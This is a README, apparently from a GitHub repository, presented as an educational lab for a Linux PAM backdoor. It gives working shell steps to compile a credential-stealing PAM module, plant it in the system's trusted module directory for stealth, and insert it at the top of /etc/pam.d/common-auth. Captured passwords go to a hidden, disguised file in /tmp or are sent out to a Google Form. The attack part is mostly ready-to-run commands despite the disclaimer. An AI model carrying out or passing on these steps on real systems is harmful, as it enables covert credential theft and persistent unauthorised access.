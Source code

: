 #### Disclaimer

_This article is intended for educational and awareness purposes only. The techniques demonstrated are for understanding security risks and improving defenses. Unauthorized use or replication of these methods for malicious activities is strictly prohibited and may be illegal. Always obtain proper authorization before testing or simulating attacks on any systems. The author is not responsible for any misuse, damage, or illegal activities resulting from applying the techniques discussed._

### Background  
PAM modules are dynamically loaded components that handle authentication on Linux systems. Attackers can exploit this by installing malicious modules and modifying PAM’s configuration to load them during login. This allows the attacker to secretly capture user credentials whenever authentication occurs, making it a powerful vector for persistent access and data theft  

#### How the backdoor works?
The malicious code hooks into _pam_sm_authenticate()_, capturing the username via _pam_get_user()_ and the password via _pam_get_authtok()_ before silently logging or exfiltrating them. Meanwhile, _pam_sm_setcred()_ completes the authentication process to avoid detection.

I’ve uploaded code for two Linux PAM modules: one logs credentials to disk (already compiled), and the other exfiltrates to Google Forms (requires updating values before compiling). 
##### Code files

```
pam_backdoor_lab.zip
│
├── pam_backdoor_disklog/
│   ├── pam_backdoor.c
|   ├── pam_backdoor.so
└── pam_backdoor_googleform/
    ├── pam_backdoor.c
```

For the first, just copy the compiled module to the shared library location.  I have not compiled the second module yet because it requires updating the Google Form URL(as shown in below image) and entry values in the source code. Once those are set, you can compile and deploy the module.    

![image](https://github.com/user-attachments/assets/e5021065-7e31-4744-804d-8bf18cf60bcf)  


#### Step 1: Install Development Package for PAM Modules    
You need to install libpam0g-dev because it provides the header files and libraries required to compile custom PAM modules  
```
sudo apt update  
sudo apt install libpam0g-dev  
```  
#### Step 2: Compile the Backdoor PAM Module  
```
gcc -fPIC -fno-stack-protector -c pam_backdoor.c  
ld -x --shared -o pam_backdoor.so pam_backdoor.o
```
#### Step3: Deploy the Backdoor Module into PAM's Trusted Directory  
Copy the backdoor module to /lib/x86_64-linux-gnu/security/ because it’s the default trusted location for PAM modules, ensuring it’s automatically loaded by all PAM-aware services and stays hidden among legitimate system files for better stealth and persistence.   
```
sudo cp pam_backdoor.so /lib/x86_64-linux-gnu/security/
```      
Modify the common-auth file under /etc/pam.d, which handles authentication, by inserting the backdoor module at the top of the PAM authentication stack. This ensures it executes first during all authentication requests, allowing the backdoor to intercept credentials stealthily and persistently across system login processes.  
```
sed -i '1i auth required pam_backdoor.so' /etc/pam.d/common-auth
```   

#### Step4: Test the Backdoor Module 
Perform any authentication action like `sudo`, `su`, `su -`, or SSH logins. The backdoor will capture and log all credentials during these authentications.
```
sudo su
su -
ssh user@ip
```

- **If using the disk-logging module:**  
All captured credentials are saved to a hidden, seemingly legitimate file on disk named /tmp/.X11-unixs. To view the stolen creds, run:   
```
cat /tmp/.X11-unixs
```

- **If using the Google Forms exfiltration module:**
Credentials are sent silently to your configured Google Form. Check your Google Form responses to verify captured data as shown.
![2025-06-08_00-54_1](https://github.com/user-attachments/assets/ae275802-ce96-4481-9354-c30fae9c7e56)   
![2025-06-08_00-54](https://github.com/user-attachments/assets/8d773b2c-7369-4e9e-af75-7961f9da1fef)    
  

